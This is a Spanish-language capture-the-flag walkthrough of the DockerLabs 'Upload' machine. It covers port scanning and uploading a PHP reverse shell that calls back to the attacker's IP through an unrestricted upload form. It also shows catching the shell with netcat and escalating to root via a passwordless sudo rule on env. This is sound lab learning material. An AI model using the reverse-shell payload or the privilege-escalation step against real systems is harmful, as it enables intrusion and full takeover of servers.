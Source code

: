 ```yaml
---
icon: flag
---
```


# Upload DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip upload.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh upload.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 11:05 CET
Nmap scan report for 172.17.0.2
Host is up (0.000036s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.60 seconds
```

Vemos que hay un puerto `80` y si entramos veremos una pagina en la que podremos subir un archivo, por lo que vamos a probar a subir un `.php` para crear una `reverse shell`.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora nos vamos a la pagina y subiremos el archivo, veremos que se pudo subir correctamente sin ningun tipo de restrciccion, ahora vamos a ver donde esta subir dicho archivo.

Si probamos a poner `/uploads` veremos que si funciona y estara dentro nuestro archivo, por lo que antes de clicarlo para ejecutarlo nos pondremos a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Y ahora pinchamos el archivo, una vez echo eso, si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.28] from (UNKNOWN) [172.17.0.2] 32890
whoami
www-data
```

Por lo que vemos seremos el usuario `www-data`, ahora tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 702664e2e7ef:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 702664e2e7ef:
    (root) NOPASSWD: /usr/bin/env
```

Vemos que podemos ejecutar el binario `env` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo env /bin/bash
```

Info:

```
root@702664e2e7ef:/home# whoami
root
```

Con esto seremos `root` por lo que habremos terminado la maquina.
